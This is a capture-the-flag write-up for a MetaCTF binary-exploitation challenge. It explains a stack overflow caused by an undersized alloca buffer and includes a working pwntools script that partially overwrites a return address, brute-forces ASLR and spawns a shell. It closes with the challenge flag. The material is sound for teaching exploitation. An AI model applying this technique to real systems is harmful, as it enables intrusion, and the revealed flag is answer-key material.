 # Satellite Command - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/SatelliteCommand.gif)

---

## Challenge Summary

The challenge involves a binary that parses binary tree-like strings into a flat array representation on the stack. Due to a flawed assumption that the tree is fully balanced, the program underallocates stack space when parsing sparse trees. This leads to a stack-based buffer overflow. The attacker can exploit this to partially overwrite the return address and redirect execution to a built-in debug_shell() function using a ret2win strategy. ASLR is bypassed with a brute-force approach targeting the lower 12 bits of the address.

## Binary Information

```bash
$ file christmas_tree.bin
```

![Alt text](img/2.png)

```bash
$ pwn checksec christmas_tree.bin
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

The `main()` function reads user commands and passes input to `print_tree()` when the `"display"` option is chosen.

![Alt text](img/4.png)

In `print_tree()`, the program:

- Estimates the number of nodes (`estimate_tree_size()`),
- Allocates a stack buffer with `alloca()` based on that size,
- Parses the tree string via `decode_tree()`.

![Alt text](img/5.png)

**Issue:** The estimated size assumes a complete tree. With a deep, sparse tree, `decode_tree()` writes past the small buffer, causing a **stack buffer overflow**. This allows a **partial return address overwrite**, enabling a **ret2win exploit** via the hidden `debug_shell()` function.

---

## Exploit Strategy

Send a deeply nested, sparse tree string that causes the program to allocate a smaller buffer than needed. This triggers out-of-bounds writes on the stack, allowing partial overwrite of the return address. By placing specific characters at precise positions, the attacker overwrites the lower bytes of the return address to redirect execution to the hidden debug_shell() function. ASLR is bypassed by brute-forcing the unknown bits of the address, requiring multiple attempts to successfully gain a shell.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template christmas_tree.bin --host host5.metaproblems.com --port 7521
from pwn import *
import time

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'christmas_tree.bin')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 7521)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)



while True:
    io = start()


    io.recvuntil(b'Welcome! What would you like to do? : ')
    io.sendline(b"display")
    io.recvuntil(b'Please enter your encoded christmas tree : ')
    io.sendline(b"0()(1()(2()(3(4(()(i))((S)()))())))")
    for i in range(3) :
        io.recvline()

    try:
        io.sendline(b"cat flag.txt")
        flag = io.recvline().strip()
        #log.success(f"FLAG : {flag.decode()}")
        log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

        break

    except:
        io.close()


```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
